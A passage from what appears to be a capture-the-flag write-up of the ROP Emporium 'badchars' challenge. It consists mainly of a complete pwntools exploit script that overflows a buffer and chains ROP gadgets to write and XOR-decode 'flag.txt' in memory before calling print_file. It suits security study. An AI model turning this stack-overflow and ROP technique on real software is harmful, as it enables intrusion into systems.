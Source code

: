 After some time, we can successfully find the right ROP gadget chain, following the same methodology as before!
This is the final script:
```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.bits = 64
context.endian = "little"
context.os = "linux"

data_addr = 0x601028 + 7 # address of .data
print_file = p64(0x400510)
pops = p64(0x40069c) # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
moves = p64(0x400634) # mov qword ptr [r13], r12 ; ret
xor = p64(0x400628) # xor byte ptr [r15], r14b ; ret
popR15 = p64(0x4006a2) # pop r15 ; ret
junk = p64(0xdeadbeefdeadc0de)
print_param = p64(0x4006a3) # pop rdi ; ret

e = ELF("./badchars")

io = e.process()

print(io.recvuntil(">"))

payload = b"A" * 40
payload += pops
payload += p64(0x5559550f46404d47) # "flag.txt" for edi
payload += p64(data_addr)
payload += p64(33) # value to xor with
payload += p64(data_addr)
payload += moves

for i in range(8): # unxor the string
    payload += popR15
    payload += p64(data_addr + i)
    payload += xor

# return to print_file
payload += print_param
payload += p64(data_addr)
payload += print_file

with open("payload", "wb") as file:
    file.write(payload)

io.sendline(payload)

print(io.recvrepeat())
```

